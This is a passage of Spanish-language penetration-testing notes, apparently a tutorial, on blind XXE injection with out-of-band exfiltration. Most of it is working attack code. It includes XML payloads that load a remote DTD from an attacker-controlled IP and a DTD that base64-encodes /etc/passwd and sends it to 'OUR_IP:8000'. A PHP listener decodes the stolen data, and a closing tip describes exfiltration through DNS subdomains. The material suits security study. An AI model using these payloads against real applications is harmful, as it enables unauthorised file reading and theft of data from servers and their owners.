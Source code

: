 montamos un servidor en python.

Finalmente, el atacante debe enviar la siguiente carga útil XXE a la aplicación vulnerable:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM  
"http://<IP-KALI>:<PUERTO>/data.xml"> %xxe;]>
```

El archivo **data.xml** puede tener la extension **data.dtd** depende la configuracion del servidor.

#### USANDO UN DTD EXTERNO

podemos crearnos un archivo dtd con el siguiente contenido: (**xxe.dtd**)

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/hey.php?content=%file;'>">
```

donde:

- la entidad `file` tiene el contenido de un archivo en base64.
- la entidad `oob` (Out-of-Band) realiza la consulta GET a una URL externa y pasa el contenido en base64 como parametro por url.

nos montamos un servidor con PHP que reciba esta informacion y la decodifique:

**_hey.php_**

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

```shell-session
php -S 0.0.0.0:8000
```

realizamos la injeccion XXE:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

>[!tip]
>además de almacenar nuestros datos codificados en base64 como un parámetro para nuestra URL, podemos utilizar `DNS OOB Exfiltration`colocando los datos codificados como un subdominio para nuestra URL (por ejemplo `ENCODEDTEXT.our.website.com`), y luego usar una herramienta `tcpdump`para capturar cualquier tráfico entrante y decodificar la cadena de subdominio para obtener los datos. Por supuesto, este método es más avanzado y requiere más esfuerzo para extraer datos.
